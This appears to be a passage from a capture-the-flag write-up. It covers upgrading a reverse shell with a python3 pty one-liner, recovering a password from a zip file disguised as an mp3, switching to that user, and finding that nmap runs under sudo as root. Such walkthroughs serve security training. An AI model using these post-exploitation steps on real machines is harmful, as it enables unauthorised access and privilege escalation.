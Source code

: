 I got the reverse shell, Let's stablize it using python3 (found it using which python3)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
stty raw -echo && fg
```
```bash
export TERM=xterm
```

At /home there is two user 


```
www-data@ubuntu-s-1vcpu-1gb-nyc1-01:/home/spipa7$ ls -la
total 24
drwxr-xr-x 3 spipa7   spipa7   4096 Apr  6 12:28 .
drwxr-xr-x 4 root     root     4096 Apr 14 22:50 ..
-rw------- 1 spipa7   spipa7     13 Apr  6 12:28 .bash_history
drwx------ 2 spipa7   spipa7   4096 Apr  6 12:23 .cache
---------- 1 root     root       64 Apr  6 10:08 key.txt
-rwxrwxrwx 1 www-data www-data  230 Apr  6 10:09 marrakech.mp3

```

spipa7 user has a mp3 file let's download it. I used the python http server python3 -m http.server 8080

The file is an archive let's unzip it

```bash
┌──(kali㉿kali)-[~]
└─$ unzip marrakech.mp3
Archive:  marrakech.mp3
  inflating: creds.txt

┌──(kali㉿kali)-[~]
└─$ cat creds.txt
Hmmm Good wlahila Good, Now you can pwn this!

Th1s_vite$$@1337

```  
I used su to switch to the user spipa7 using the password `Th1s_vite$$@1337` (Didn't check ssh) 

Let's check sudo 

```bash
$ sudo -l
Matching Defaults entries for spipa7 on ubuntu-s-1vcpu-1gb-nyc1-01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User spipa7 may run the following commands on ubuntu-s-1vcpu-1gb-nyc1-01:
    (r00t) /usr/bin/afrodisiac
    (root) /usr/bin/nmap
$ file /usr/bin/afrodisiac
/usr/bin/afrodisiac: cannot open `/usr/bin/afrodisiac' (No such file or directory)
```
We can use nmap as sudo
